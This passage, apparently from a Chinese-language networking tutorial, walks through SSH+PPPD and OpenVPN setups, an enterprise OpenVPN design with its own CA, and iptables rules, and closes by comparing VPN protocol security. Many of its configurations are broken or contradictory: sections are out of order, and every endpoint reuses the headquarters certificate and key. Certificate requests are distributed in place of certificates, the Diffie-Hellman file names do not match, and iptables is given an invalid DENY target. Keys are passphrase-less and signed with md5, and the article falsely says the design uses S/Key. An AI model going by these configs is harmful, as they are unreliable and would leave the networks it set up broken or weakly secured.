IgnoreRhosts yes
StrictModes yes
QuietMode no
FascistLogging yes
CheckMail no
IdleTimeout 3d
X11Forwarding no
PrintMotd no
KeepAlive yes
SyslogFacility DAEMON
RhostsAuthentication no
RhostsRSAAuthentication no
RSAAuthentication yes
PasswordAuthentication no
PermitEmptyPasswords no
UseLogin no
```

使用 chkconfig 关闭以字母 R 开始的服务名，包括密码服务。关闭 mail 检查服务和信息提示。由于这些服务会与 pppd 客户端冲突，密钥机制方式允许 root 登录，保证了系统登录的安全性。

```bash
##### 添加 vpn 用户组，并在 /etc/group 记录组 gid，比如 101
groupadd vpn-users
##### 创建单个主目录用于所有用户
mkdir /home/vpn-users
##### 创建 .ssh 目录
mkdir /home/vpn-users/.ssh
##### 在 /etc/passwd 添加用户，例如：
star:*:1020:101:star amethyst (home):/home/vpn-users:/usr/sbin/pppd
tp:*:1020:101:Vincent tiger (home):/home/vpn-users:/usr/sbin/pppd
mjf:*:1020:101:ma jitao (home):/home/vpn-users:/usr/sbin/pppd
```

## 2. 客户端配置

```bash
users:/usr/sbin/pppd
##### 设置网络过滤规则
iptables -P FORWARD DENY
iptables -A FORWARD -s 192.168.10.0/24 -d 192.168.0.0/16 -j ACCEPT
##### 192.168.254.254 是内部路由器的网关
route add -net 192.168.0.0 netmask 255.255.0.0 gw 192.168.254.254 dev eth1
```

```bash
# 需要 pty-redir 软件包，一般通过程序 pty-redir 创建伪 pseudo 终端后运行远程 pppd，并连接到 ssh。
# 此软件收录于软件包中。
##### 配置防火墙设置
iptables -t filter -F FORWARD
iptables -t filter -P FORWARD DENY
iptables -t filter -A FORWARD -s 192.168.10.0/24 -d 192.168.0.0/16 -j ACCEPT

# 配置 PPPD，在 /etc/ppp/options 文件中，注意 auth 或者其他特效选项一定要关闭，假如连接产生错误，可以清空 options 所有内容在此行测试。
##### 配置 ssh
mkdir /root/.ssh
ssh-keygen -f /root/.ssh/identity_vpn -P ""
# 以上会将在 .ssh 目录中创建两个文件，identity_vpn 和 identity_vpn.pub，在 ssh 中第一个是私钥，第二个是公钥。
# 拷贝公钥到服务器 /home/vpn-user/.ssh/authorized_keys 文件中。
# 其值第一行对每一个连接都不能对应多行，并加入必要的限制（便于日后访问）。
##### 其产生的公钥形式大致如下：
1024 35 1430729736674162619588314275167 250872101150654839 root@ex-vpn-test.net

##### 连接 VPN 服务器
ssh ex-vpn-test.net
# 连接成功后，对弹出的对话框并回答 YES。
# 服务器会提示 permission denied，然而由于在连接脚本中要用客户端和服务器相同的主名，因此提示拒绝并无关。

##### 制作连接脚本，在连接脚本中使用和服务器相同的名字
/usr/sbin/pty-redir /usr/bin/ssh -e none -o BatchMode=yes -c blowfish -i /root/.ssh/identity_vpn -l vpn-user ex-vpn-test.net > /tmp/vpn-device
sleep 10
/usr/sbin/pppd `cat /tmp/vpn-device`
sleep 15
/usr/sbin/pppd `cat /tmp/vpn-device` 192.168.10.1:192.168.0.254
##### 第一个 IP 是客户端的通道
##### 第二个是服务器的通道
/sbin/route add -net 192.168.0.0 gw ex-vpn-test.net netmask 255.255.0.0
##### 增加隧道连接中的默认访问网关
```

连接，并使用 crontab 监视 VPN 的进程。

- 此脚本收录于软件包中。
- 使用者可按提示需要修改。
- Line 27：在 $PPP_OPTIONS 变量前面加入本地和远程的 IP 地址。
- Line 31：在设置了内部网络空间的路由后，需要修改此处的网络配置。

通过 SSH+PPPD 方式，实现了一个小巧方便的免费的 VPN 设计方案，并且由于实现功能简单、概念浅显，因而受到大多数 Linux 用户的青睐。然而对于 Windows 用户，使用此种方法似乎道路不通。然而地球本来就如同球体，无论你如何行走，总会达到你想要的目的。

> **小技巧** 您使用优秀的免费软件 Cygwin，可以在 Windows 轻松安装 openssh 和 ppp 组件，从而在 Windows 平台实现 ssh+pppd 的实现方式，它本就是通过这种方式建立实际的 VPN 应用。关于 Cygwin 安装 SSH 方法及相应软件设置，笔者在先前软件包、VPN 设计方案和 Linux 过程中介绍过，读者不妨参考。

然而考虑到目前许多读者仍然是基于 Windows 平台进行学习和工作，因此下面将介绍一种基于 Windows 平台、令类 Linux 设计的 VPN 方案，而且采用 OpenSSL 的强大功能，给 VPN 的实现方式增添了一种新的思路。

### ☆ 基于 Windows 的 SSL-VPN 设计

目前在 Windows 平台实现 SSL 的免费软件似乎是很稀有的，然而这里使用了 OpenVPN（一个非常优秀的软件）来实现 VPN 设计，其支持具有普及作用，而且适用性非常广泛。

OpenVPN 最大的特点莫过于其交叉平台的 VPN 实现，意思是可以在 Linux、Solaris、OpenBSD、FreeBSD、NetBSD、Mac OS X 和 Windows 2000/XP 的操作系统上安装 OpenVPN，实现各异平台之间的 VPN 连接。而其基于 OpenSSL 认证模块而开发，具有非常高的安全性能，可以说 OpenVPN 在实现 VPN 的方案中最具经济性和实用性。

OpenVPN 支持桥接（Bridge）和路由（Routing）两种 VPN 连接方式。桥接方式类似以太网环境，是一个广播域（通过 SMB/NetBIOS 的协议，网络邻居里主机相互可见）；而路由不广播 IP 包，需要在两个不同网络进行数据转发。

此外，OpenVPN 又支持 TAP 和 TUN 的虚拟驱动支持。所谓 TAP 虚拟化，我们可以假想成一个“物理”网卡，其主要用于桥接网络环境中；而 TUN 设备则类似点到点的连接，其用于路由网络环境中。

- 实验环境（图二十七）


## 附录

> **注意** 这里实现一种最方便的 VPN 设计，即点对点的方式。此设计可以适用于 Windows-Windows、Linux-Linux 或 Windows-Linux 之间的 VPN，下面实现方式则以 Windows-Linux 为主。

### 具体配置

基于 Windows 的 OpenVPN 既可以从软件包获得，也可直接从 http://prdownloads.sourceforge.net/openvpn/openvpn-1.5_beta14-install.exe 下载。

安装过程与一般的 Windows 应用别无二致。安装过程会出现 GNU 的声明规则，当安装完毕后，Windows 网络连接中会出现一个 TAP-WIN32 的虚拟网卡适配器。

- 1. 在虚拟 VPN 网络配置里面配置网络 10.10.10.1，子网掩码 255.255.255.0，注意不能和机器中现有其他网卡地址冲突（图二十八）。


在 Windows 命令行产生静态密钥（图二十九）：


把此密钥通过安全媒介拷贝到与之建立 VPN 连接的机器中，这里则拷贝到 Linux 中。

在 Windows 机器中创建一个 config.ovpn 的文件，内容如下：

```bash
filename: config.ovpn

remote [linux 机器的远程 IP]
dev tap
ifconfig 10.3.0.1 255.255.255.0
secret key
ping 10
verb 3
mute 10
```

在 Linux 机器中创建类似文件：

```bash
filename: config.ovpn

remote [windows 机器的远程 IP]
dev tap
ifconfig 10.3.0.1 255.255.255.0
secret key
ping 10
verb 3
mute 10

file end
```

**注意：** remote 远程 IP 是实际地址，不是虚拟的 VPN 地址。在两台主机分别输入（图三十）：

```bash
openvpn --config config.ovpn
```


至此，加密通道已经建立。

几点注意：

- 1. 在 Linux 系统中需要允许虚拟 tap 网卡的连接：

```bash
iptables -A INPUT -i tap+ -j ACCEPT
```

- 2. 确定操作系统之间 UDP 5000 端口开放，在实际 VPN 连接前最好测试网络连接。

```bash
iptables -A INPUT -p udp --dport 5000 -j ACCEPT
```

本节实现了四种风格各异、经济实用且容易操作的 VPN 设计方法，对于读者设计自己的 VPN 安全隧道提供基本思路。然而 VPN 的实现方式物产丰富，而且可以根据其简单的设计原理自行创建适合自用的个人 VPN 方式，建立更加安全的个人信息交流平台。

## 四、基于源代码开放的 VPN 组建方案

本小节将根据流行的 OPENVPN 实现方法提供一个较为全面的 VPN 设计实现，也设计满足目前中、小型企业对安全虚拟专用网络的需要。其设计结构如图三十一所示：


企业多种多样，具体表述一个企业形式已经大大超出了我的知识范围。因此这里所表示的企业只是一个相对狭义的概念。在这个假想的企业中含有专属的内部业务公网网络，远程的分支机构使用 VPN 方式与内部业务网连接，实现企业的内部信息共享。此外，移动办公职员（出差人员）可以使用 VPN 随时与总部内部业务网进行信息交换。而企业的战略合作伙伴（比如：供应商、贸易联盟等）使用 Extranet 的 VPN 方式与企业对外业务网进行信息交换。企业的漫游顾客则通过 Remote Access 访问企业对外业务网。

由于企业总部对外提供 VPN 服务，因此 VPN 网关需要一个固定的公网地址，以便接受来自 Internet 的不同请求。假想环境中定义为：1.2.3.4。企业为节省资金，一般的远程分支机构使用 ADSL 动态拨号连接，所以对公网地址为动态分配；而移动办公人员因为通过拨号上网，因此 IP 地址也为动态；而通过 VPN 使漫游用户使用内部业务网络，最方便的分址方式是架设 DHCP 服务器，从而避免为每个员工的机器进行地址分配。企业的合作伙伴使用固定的 IP 地址 5.6.7.8，而漫游客户则假设为动态 IP 分配。

其假想网络具体 IP 分配如下所示：

| 场景 | 配置 |
|---|---|
| 内部业务网—远程分支机构（桥接） | 总部：内部业务网 IP 地址段 10.0.0.0/24；VPN 网关 br0（eth1，tap0）：10.0.0.10，eth0：1.2.3.4（Linux） |
|  | 远程分支机构：内部业务网 IP 地址段 10.0.0.0/24；VPN 网关 eth1：10.0.0.20，ppp0：ADSL 动态拨号分配 IP（Windows） |
| 内部业务网—移动办公职员（桥接） | 总部：内部业务网 IP 地址段 10.0.0.0/24；VPN 网关 br0（eth1，tap1）：10.0.0.10，eth0：1.2.3.4（Linux） |
|  | 移动办公职员：tap0（虚拟网卡）业务内网 DHCP 动态分配，ppp0：ADSL 动态拨号分配 IP（Windows） |
| 对外业务网—合作伙伴（路由） | 总部：对外业务网 IP 地址段 192.168.1.0/24；VPN 网关 tun1：192.168.0.1，eth0：1.2.3.4（Linux） |
|  | 合作伙伴：内网 IP 地址段 172.36.1.0/24；VPN 网关 tun1：192.168.0.2，eth0：5.6.7.8（Linux） |
| 对外业务网—漫游客户（路由） | 总部：对外业务网 IP 地址段 192.168.1.0/24；VPN 网关 tun2：192.168.0.253，eth0：1.2.3.4（Linux） |
|  | 漫游客户：tun0（虚拟 IP）：192.168.0.254，ppp0：ADSL 动态拨号分配 IP（Windows） |

### 1、颁发密钥

OPENVPN 支持基于数字证书的加密连接和静态共享密钥的加密连接。虽然静态共享密钥配置简单，但其共享密钥一旦被获得，加密通道内的所有信息将被攻击者一览无余，因此此处使用基于数字证书的加密连接方式。

在安装有 openssl 的密钥生成服务器上根据 VPN 连接的不同要求生成相应的公私密钥对。

- 1. 查找 OpenSSL 的全局配置文件

```bash
root@keysvr:~> openssl ca
Using configuration from /usr/share/ssl/openssl.cnf
```

- 2. 建立 VPN 验证的存放密钥目录

```bash
keysvr#> cd /etc
keysvr#> mkdir openvpn; cd openvpn
keysvr#> mkdir certs; mkdir private
keysvr#> chmod 700 private
keysvr#> echo '01' > serial
keysvr#> touch index.txt
```

- 3. 拷贝 /usr/share/ssl/openssl.cnf 配置文件到 /etc/openvpn 目录中，并做下述修改：

```bash
##############################
[ ca ]
default_ca = CA_default

[ CA_default ]
dir = /etc/openvpn
certificate = $dir/vpncert.crt
database = $dir/index.txt
new_certs_dir = $dir/certs
private_key = $dir/private/vpncert.key
certs = $dir/certs
serial = $dir/serial
crl_dir = $dir/crl
default_days = 700
default_crl_days = 300
default_md = md5
policy = CertAuthCA_policy
x509_extensions = certificate_extensions

#### For the CA policy
[ CertAuthCA_policy ]
commonName = supplied
stateOrProvinceName = supplied
countryName = supplied
emailAddress = supplied
organizationName = supplied
organizationalUnitName = optional

[ certificate_extensions ]
basicConstraints = CA:FALSE
##############################
[ req ]
default_bits = 2048
default_keyfile = /etc/openvpn/private/vpncert.key
default_md = md5
prompt = no
distinguished_name = root_ca_distinguished_name
x509_extensions = root_ca_extensions

[root_ca_distinguished_name]
commonName = Certificate Authority Created by Star Amethyst
stateOrProvinceName = Mars
countryName = Newworld
emailAddress = star_amethyst@hotmail.com
organizationName = CA.HackerXfiles.org

[root_ca_extensions]
basicConstraints = CA:true
```

- 4. 在 rc.local 文件写入 OPENSSL_CONF 环境变量：

```bash
OPENSSL_CONF=/etc/openvpn/openssl.cnf
export OPENSSL_CONF
```

- 5. 创建一个根证书：

```bash
keysvr#> openssl req -nodes -new -x509 -keyout vpncert.key -out vpncert.crt -days 3650
Generating a 2048 bit RSA private key

+++

+++
writing new private key to '/etc/openvpn/private/vpncert.key'
```

- 6. 根据不同 VPN 端点创建不同 VPN 的自签证书

```bash
#### 总部证书
keysvr#> openssl req -nodes -new -keyout headquarters.key -out headquarters.csr
keysvr#> openssl ca -out headquarters.crt -in headquarters.csr

#### 远程分支证书
keysvr#> openssl req -nodes -new -keyout branch.key -out branch.csr
keysvr#> openssl ca -out branch.crt -in branch.csr

#### 移动办公职员（证书名称最好取职员名字，以区别不同出差办公人员）
keysvr#> openssl req -nodes -new -keyout staffname.key -out staffname.csr
keysvr#> openssl ca -out staffname.crt -in staffname.csr

#### 合作伙伴
keysvr#> openssl req -nodes -new -keyout partner.key -out partner.csr
keysvr#> openssl ca -out partner.crt -in partner.csr

#### 漫游客户（须用通用的漫游数字证书）
keysvr#> openssl req -nodes -new -keyout roaming.key -out roaming.csr
keysvr#> openssl ca -out roaming.crt -in roaming.csr
```

- 7. 密钥颁发

使用保密方法（scp、sftp 等）把 vpncert.crt、branch.key、branch.csr 拷贝至分支机构 VPN 网关服务器；把 vpncert.crt、staffname.key、staffname.csr 拷贝至相应职员的笔记本电脑中；把 vpncert.crt、partner.key、partner.csr 拷贝至合作伙伴的 VPN 网关服务器；把 vpncert.crt、roaming.key、roaming.csr 拷贝至受信赖客户机中。

- 8. 于企业总部创建 Diffie-Hellman 参数

```bash
keysvr#> openssl dhparam -out dh2048.pem 2048
```

### 2、内部业务网—远程分支机构隧道建设

要实现内部业务网—远程分支机构之间的桥接组网方式，就必须在两端安装 bridge-utils 软件，使网卡之间能以网桥的形式连接两个远程网络，形成特有的内部局域网。此软件包的 RPM 和 TAR 形式已经收录于光盘的软件包中。

- 1. 在网关的 Linux 主机的 modules.conf 文件添加如下语句：

```bash
#### Universal TUN/TAP network device
alias char-major-10-200 tun
```

- 2. 总部 VPN 的 /etc/rc.d/rc.local 文件中添加相应条目：

```bash
headquarters communicate branch with bridging vpn
/sbin/modprobe tun
/sbin/modprobe bridge

/usr/sbin/openvpn --mktun --dev tap0
```

- 3. 建立“内部业务网—远程分支机构”配置脚本：`/etc/openvpn/headquarters-branch.conf`

```bash
dev tap0

#### 设置启动脚本
up ./headquarters-branch

#### Certificate Authority file
ca openvpn.crt
#### Our certificate/public key
cert headquarters.crt
#### Our private key
key headquarters.key

#### 使用 UDP 端口 8000 实现内部业务网—远程分支机构通路
port 8000

#### 实现压缩特性，提高隧道传输效率
comp-lzo

#### 重启连接控制
persist-key
persist-tun
```

## 3、内部业务网——移动办公职员随意接入

```conf
ping-timer-rem
ping-restart 60
ping 10

#### verbosity
verb 3

#### 设置接受任何进入的主机
float

#### 设置为进程服务
daemon
```

```conf
ping-timer-rem
ping-restart 60
ping 10

#### verbosity
verb 3

#### 由于启动分配 IP 地址，因此需要固定总部远端 IP 地址
remote 1.2.3.4

#### 设置为进程服务
daemon
```

- 4. /etc/openvpn/headquarters-branch

```bash
/usr/sbin/brctl addbr br0
/usr/sbin/brctl addif br0 tap0
/usr/sbin/brctl addif br0 eth1

/sbin/ifconfig tap0 0.0.0.0 promisc up
/sbin/ifconfig eth1 0.0.0.0 promisc up

#### 设置 br0 为本地默认网关（所有内部业务所指向的默认网关）
/sbin/ifconfig br0 192.168.0.10 netmask 255.255.255.0 broadcast 192.168.0.255
```

- 5. 建立“远程分支机构—内部业务网”配置脚本（脚本位于远程 VPN Windows 网关）

```conf
#### /etc/openvpn/branch-headquarters.conf

#### 设置设备名称
dev tap0
ifconfig 192.168.0.20 255.255.255.0

#### 设置启动脚本
up ./branch-headquarters

#### Certificate Authority file
ca openvpn.crt
#### Our certificate/public key
cert headquarters.crt
#### Our private key
key headquarters.key

#### 使用 UDP 端口 8000 实现远程分支机构—内部业务网通信
port 8000

#### 实现压缩特性，提高隧道传输效率
comp-lzo

#### 重启连接控制
persist-key
persist-tun
```

- 6. 控制面板的网络连接中选择 TAP-Win32 网卡适配器，选择 “Bridge Connections”。

在 Windows 网关使用 `openvpn config\branch-headquarters.ovpn` 启动隧道连接。

- 1. 总部 VPN 的 `/etc/rc.d/rc.local` 文件中添加相应条目：

```bash
/usr/sbin/openvpn --mktun --dev tap1
```

- 2. 建立“内部业务网—移动办公职员”配置脚本：

```conf
#### /etc/openvpn/headquarters-staffname.conf

#### 设置设备名称
dev tap1

#### 设置主机名
local 1.2.3.4

#### 设置启动脚本
up ./headquarters-staffname

#### Certificate Authority file
ca openvpn.crt
#### Our certificate/public key
cert headquarters.crt
#### Our private key
key headquarters.key

#### 使用 UDP 端口 9000 实现内部业务网—移动办公职员通信
port 9000

#### 实现压缩特性，提高隧道传输效率
comp-lzo

#### 重启连接控制
persist-key
persist-tun
ping-timer-rem
ping-restart 60
ping 10

#### verbosity
verb 3

#### 以 nobody 增强安全性
user nobody
group nobody

#### 受理接受任何进入的连接
float

#### 设定为守护服务
daemon
```

```conf
default-lease-time 1800;
option domain-name "hackerxfiles.net";
option subnet-mask 255.255.255.0;

pool {
  deny members of "openvpn";
  range 192.168.0.192 192.168.0.200;
  option routers 192.168.0.10;
  option domain-name-servers 192.168.0.1;
}

pool {
  allow members of "openvpn";
  range 192.168.0.201 192.168.0.220;
}
```

- 3. /etc/openvpn/headquarters-staffname：

```bash
/usr/sbin/brctl addbr br0
/usr/sbin/brctl addif br0 tap0
/usr/sbin/brctl addif br0 eth1

/sbin/ifconfig tap0 0.0.0.0 promisc up
/sbin/ifconfig eth1 0.0.0.0 promisc up

#### 设置 br0 为本地默认网关（所有内部业务所指向的默认网关）
/sbin/ifconfig br0 192.168.0.10 netmask 255.255.255.0 broadcast 192.168.0.255
```

配置 DHCP，以便分配适当的 IP 给移动办公职员的机器。

感谢 Jim 与 Dave Lau 的辛勤劳作，使我们顺利完成此步骤。

- 4. /etc/dhcp3/dhcpd.conf

```conf
### If hardware address begins with 00:FF, the client is an
### OpenVPN tap adapter, and we do not want to assign a
### default gateway or DNS server. Assign them to a special
### subclass and configure a pool which does not hand out
### these parameters

class "openvpn" {
  match if substring (hardware, 1, 2) = 00:FF;
}

### end class declaration

### subnet for br0
authoritative;
subnet 192.168.0.0 netmask 255.255.255.0 {
  always-broadcast on;
  max-lease-time 3600;
```

- 4. 建立“移动办公职员—内部业务网”配置脚本（脚本位于远程 Windows 笔记本）：

`X:\Program Files\OpenVPN\config\staffname-headquarters.ovpn`

```conf
#### 设置设备名称
dev tap

#### 由于自动分配 IP 地址
dev-node tap-bridge

#### Certificate Authority file
ca openvpn.crt
#### Our certificate/public key
cert headquarters.crt
#### Our private key
key headquarters.key

#### 使用 UDP 端口 9000 实现移动办公职员—内部业务网通信
port 9000

#### 实现压缩特性，提高隧道传输效率
comp-lzo

#### 重启连接控制
persist-key
persist-tun
ping-timer-rem
ping-restart 60
ping 10

#### verbosity
verb 3

#### 由于是动态分配 IP 地址，因此需要固定总部远端 IP 地址
remote 1.2.3.4
```

- 6. 控制面板的网络连接中选择 TAP-Win32 网卡适配器，选择 “Bridge Connections”。

```text
#### IP 地址中选择自动获得 IP 地址

#### Windows 客户端使用 openvpn config staffname-headquarters.ovpn 启动隧道连接
```

- 3. 编辑 /etc/openvpn/headquarters-partner：

```bash
#!/bin/bash
route add -net 172.36.1.0 netmask 255.255.255.0 gw 192.168.0.2
```

### 4、对外业务网—合作伙伴隧道建设

- 1. 在 `/etc/rc.local` 中添加下列内容：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- 2. 建立“对外业务网—合作伙伴”配置脚本：

```conf
#### 编辑 /etc/openvpn/headquarters-partner.conf

#### 设置设备
dev tun1

#### 192.168.0.1 是总部 VPN 隧道端点
#### 192.168.0.2 是合作伙伴 VPN 隧道端点
ifconfig 192.168.0.1 192.168.0.2

#### 建立路由脚本
up ./headquarters-partner

#### 使用 SSL/TLS 协议交换密钥，总部扮演服务器角色
tls-server

#### Diffie-Hellman 参数（tls-server 才需要此参数）
dh dh1024.pem

#### Certificate Authority file
ca openvpn.crt

#### 总部的验证公钥
cert headquarters.crt
#### 总部的验证私钥
key headquarters.key

#### 使用 UDP 5000 通信
port 5000

#### 增加安全性
user nobody
group nobody

#### 启用压缩
comp-lzo

#### 重启设置
ping 15
ping-restart 45
ping-timer-rem
persist-tun
persist-key

verb 3
```

- 4. 建立“合作伙伴—对外业务网”配置脚本：

```conf
#### 编辑 /etc/openvpn/partner-headquarters.conf

#### 设置设备
dev tun1

#### 192.168.0.1 是总部 VPN 隧道端点
#### 192.168.0.2 是合作伙伴 VPN 隧道端点
ifconfig 192.168.0.2 192.168.0.1

#### 建立路由脚本
up ./partner-headquarters

#### 使用 SSL/TLS 协议交换密钥，合作伙伴扮演客户端角色
tls-client

#### Certificate Authority file
ca openvpn.crt

#### 合作伙伴的验证公钥
cert headquarters.crt
#### 合作伙伴的验证私钥
key headquarters.key

#### 使用 UDP 5000 通信
port 5000

#### 增加安全性
user nobody
group nobody

#### 启用压缩
comp-lzo

#### 重启设置
ping 15
ping-restart 45
ping-timer-rem
persist-tun
persist-key

verb 3

remote 1.2.3.4
```

- 5. 编辑 /etc/openvpn/partner-headquarters

```bash
#!/bin/bash
route add -net 192.168.1.0 netmask 255.255.255.0
```

### 5、对外业务网—漫游客户隧道建设

- 1. 在 `/etc/rc.local` 中添加下列内容：

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

- 2. 建立“对外业务网—漫游客户”配置脚本：

```conf
#### 编辑 /etc/openvpn/headquarters-roaming.conf

#### 设置设备
dev tun2

#### 192.168.0.253 是总部 VPN 隧道端点
#### 192.168.0.254 是漫游客户 VPN 隧道端点
ifconfig 192.168.0.253 192.168.0.254

#### 使用 SSL/TLS 协议交换密钥，总部扮演服务器角色
tls-server

#### Diffie-Hellman 参数（tls-server 才需此参数）
dh dh1024.pem

#### Certificate Authority file
ca openvpn.crt

#### 总部的验证公钥
cert headquarters.crt
#### 总部的验证私钥
key headquarters.key

#### 使用 UDP 5000 通信
port 5000

#### 增加安全性
user nobody
group nobody

#### 启用压缩
comp-lzo

#### 重启设置
ping 15
ping-restart 45
ping-timer-rem
persist-tun
persist-key

verb 3
```

- 3. 建立“漫游客户—对外业务网”配置脚本

```conf
#### 编辑 /etc/openvpn/roaming-headquarters.conf

#### 设置设备
dev tun1

#### 192.168.0.253 是总部 VPN 隧道端点
#### 192.168.0.254 是漫游客户 VPN 隧道端点
ifconfig 10.1.0.2 10.1.0.1

#### 建立路由脚本
up ./partner-headquarters

#### 使用 SSL/TLS 协议交换密钥，漫游客户扮演客户端角色
tls-client

#### Certificate Authority file
ca openvpn.crt

#### 漫游客户的验证公钥
cert headquarters.crt
#### 漫游客户的验证私钥
key headquarters.key

#### 使用 UDP 5000 通信
port 5000

#### 增加安全性
user nobody
group nobody

#### 启用压缩
comp-lzo

#### 重启设置
ping 15
ping-restart 45
ping-timer-rem
persist-tun
persist-key

verb 3

remote 1.2.3.4
```

- 4. 编辑 `/etc/openvpn/roaming-headquarters`：

```bash
#!/bin/bash
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.0.253
```

漫游客户使用 `openvpn --config roaming-headquarters.conf` 启动 VPN 连接。

### 6、总部 VPN 防火墙配置

```bash
#### 定义本地地址
PRIVATE1=10.0.0.0/24
PRIVATE2=192.168.1.0/24

#### 回环地址
LOOP=127.0.0.1

#### 删除以前的规则
iptables -P OUTPUT DROP
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -F

#### 设置默认策略
iptables -P OUTPUT ACCEPT
iptables -P INPUT DROP
iptables -P FORWARD DROP

#### 阻止外部地址使用回环地址
iptables -A INPUT -i eth0 -s $LOOP -j DROP
iptables -A FORWARD -i eth0 -s $LOOP -j DROP
iptables -A INPUT -i eth0 -d $LOOP -j DROP
iptables -A FORWARD -i eth0 -d $LOOP -j DROP

#### 阻止 Internet 使用私有地址访问
iptables -A FORWARD -i eth0 -s 192.168.0.0/16 -j DROP
iptables -A FORWARD -i eth0 -s 172.16.0.0/12 -j DROP
iptables -A FORWARD -i eth0 -s 10.0.0.0/8 -j DROP
iptables -A INPUT -i eth0 -s 192.168.0.0/16 -j DROP
iptables -A INPUT -i eth0 -s 172.16.0.0/12 -j DROP
iptables -A INPUT -i eth0 -s 10.0.0.0/8 -j DROP

#### 阻止 NetBIOS protocol Internet 访问
iptables -A FORWARD -p tcp --sport 137:139 -o eth0 -j DROP
iptables -A FORWARD -p udp --sport 137:139 -o eth0 -j DROP
iptables -A OUTPUT -p tcp --sport 137:139 -o eth0 -j DROP
iptables -A OUTPUT -p udp --sport 137:139 -o eth0 -j DROP

#### 检查源地址合法性
iptables -A FORWARD -s !$PRIVATE1 -i eth1 -j DROP
iptables -A FORWARD -s !$PRIVATE2 -i eth2 -j DROP

#### 允许回环地址
iptables -A INPUT -s $LOOP -j ACCEPT
iptables -A INPUT -d $LOOP -j ACCEPT

#### 允许他人的 PING 请求
iptables -A INPUT -p icmp --icmp-type echo-request -j ACCEPT

#### 允许 WWW 和 SSH 服务进入
iptables -A INPUT -p tcp --dport http -j ACCEPT
iptables -A INPUT -p tcp --dport ssh -j ACCEPT

#### 保持链路的连接状态
iptables -A OUTPUT -m state --state NEW -o eth1 -j ACCEPT
iptables -A OUTPUT -m state --state NEW -o eth2 -j ACCEPT
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A FORWARD -m state --state NEW -o eth1 -j ACCEPT
iptables -A FORWARD -m state --state NEW -o eth2 -j ACCEPT
iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT

#### 允许包通过 TUN/TAP 设备
iptables -A INPUT -i tun+ -j ACCEPT
iptables -A FORWARD -i tun+ -j ACCEPT
iptables -A INPUT -i tap+ -j ACCEPT
iptables -A FORWARD -i tap+ -j ACCEPT

#### 允许包进入私有网络
iptables -A INPUT -i eth1 -j ACCEPT
iptables -A FORWARD -i eth1 -j ACCEPT
iptables -A INPUT -i eth2 -j ACCEPT
iptables -A FORWARD -i eth2 -j ACCEPT

#### 伪装内部业务网的 IP 地址，不伪装内部业务网 IP 地址
iptables -t nat -A POSTROUTING -s $PRIVATE2 -o eth0 -j MASQUERADE

#### 管理脚本设置
#### startup-vpn.sh
#!/etc/openvpn/openvpn-startup.sh
#!/bin/bash
dir=/etc/openvpn
$dir/firewall.sh
openvpn --cd $dir --daemon --config headquarters-branch.conf
openvpn --cd $dir --daemon --config headquarters-staffname.conf
openvpn --cd $dir --daemon --config headquarters-partner.conf
openvpn --cd $dir --daemon --config headquarters-roaming.conf

#### 2) /etc/openvpn/openvpn-shutdown.sh
#!/bin/bash
killall -TERM openvpn
```

通过以上艰苦的劳动，我们实现了一个非常优秀的 VPN 环境，它在企业投资建设 VPN 的设计中是最为经济和实惠的，而且组件是基于 S/Key 进行协商认证，加强了整个系统设计的实用性。

当然，本系统并不完善，诸如漫游用户的维护管理和与其他 VPN 产品的兼容性无疑是两个很有挑战性的问题。关于这方面的问题希望能与大家讨论解决。

## 五、VPN组网安全强度

通过各种安全协议实现了不同的VPN实现方式，在我们为实现了这样的安全隧道而值得庆贺的同时，有个问题却依然让我们顾虑，这些设计方式本身是否健壮，是否能经受得住各种诡异的攻击方式？此部分将概括性地对VPN实现方式进行安全角度的讨论。

### 1、协议安全性的讨论

安全是VPN设计实现的最基本要求，由于数据需要在公众网络连接，因此保护隧道的安全协议本身就显得非常关键。相较而言，IPSec协议提供了完整的内嵌安全机制；PPTP/L2TP则通过PPP服务提供数据的认证和加密服务，自身并不提供这些特性；SSH/SSL基于PKI机制建立了安全加密，因此也提供了完整的安全特性。

#### 1.1 认证机制较量

认证的含义是验证链路两端的通信者身份。一般认证分为用户认证和数据认证两级认证机制。在用户认证模式下，每个通信者需要确认对方的真实性。IPSec机制并不包括用户认证机制，PPTP/L2TP使用PPP提供的CHAP和PAP等协议实现用户级认证；SSH/SSL通过公钥和私钥提供了完美的用户数据认证。

在包认证机制中，每个数据包携带着标识源发地的特征数字，使接收方能唯一确认其真实性。IPSec使用AH/ESP的方式提供数据认证，PPTP/L2TP则不提供数据认证，SSH/SSL也不提供基于数据包的认证机制。

#### 1.2 完整性机制较量

完整性主要指数据在传输过程中不会被任意篡改。IPSec使用AH/ESP头捍卫着数据完整性，PPTP/L2TP使用数据流对照的方式实现数据完整性校验功能，而SSH/SSL则通过非对称加密的私钥唯一性保障数据传输的完整性。

#### 1.3 密钥管理机制

密钥管理则是在网络用户之间发布密钥的管理方法。IPSec使用IKE协议提供密钥的管理方法，PPTP/L2TP不提供此类机制，而SSH/SSL则使用公钥管理服务器实现对密钥的各种管理和操作。

经过以上对比，不难列出其对比表：

| 安全特性 | IPSec | PPTP/L2TP | SSH/SSL |
|---|---|---|---|
| 用户认证 | 不支持 | 支持 | 支持 |
| 数据包认证 | 支持 | 不支持 | 不支持 |
| 数据包加密 | 支持 | 不支持 | 支持 |
| 密钥管理机制 | 有 | 没有 | 有 |

### 2、协议攻击可能性

### 2.1 IPSec安全强度

IPSec使用DES加密算法和MD5/SHA-1加密模式对数据进行加密。由于AH/ESP可以选择，它也允许使用空加密算法。当使用一种可选加密算法时，它试图平衡灵活性和安全性。那么当通信端一方使用DES加密，而另一方使用空加密算法时，也可以实现隧道通信。这是为了和其他系统兼容，所以存在空加密算法。这样则使数据窃听者可利用这种单方向方式实现对数据的监听。但由于IPSec本身实现是非常紧凑的，所以这种攻击的可能性相当之少（目前还无任何攻击方式可以渗透到这种VPN实现方式）。

可以说，IPSec是目前已知的最安全的协议簇群。

### 2.2 PPTP/L2TP安全强度

PPTP/L2TP认证支持散列用户级认证机制，由于加密机制不附带种子，这意味着输入数据加密和散列是一致的。在这种认证模式中，PPTP/L2TP极其容易遭受字典攻击。使用CHAP则避免了此类攻击，然而设计的散列函数仍旧有被攻击的可能。

